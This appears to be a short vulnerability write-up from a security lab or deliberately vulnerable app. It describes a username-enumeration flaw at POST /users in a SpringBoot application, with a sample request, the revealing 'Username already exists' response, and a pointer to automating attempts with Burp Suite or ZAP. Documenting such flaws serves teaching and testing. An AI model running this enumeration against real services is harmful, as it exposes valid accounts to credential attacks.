 # Brute-Force Valid Username
A type of brute force attack that finds valid usernames (usernames of existing accounts) not belonging to the attacker.

## Exploitation
**Location** _POST /users_

Brute-Force valid username present within SpringBoot code by application returning if the username belongs to an existing account.  Below is an exploitation example:

    POST /users
    raw:
    {
        "username" : "admin",
        "password" : "password"
    }
    
Burp Suite, ZAP, or equivalent technologies can be used to automate brute-forcing attempts against the web application using the general format above.

Successful exploitation looks like:

    {
        "success": false,
        "code": 400,
        "message": "Username already exists"
    }
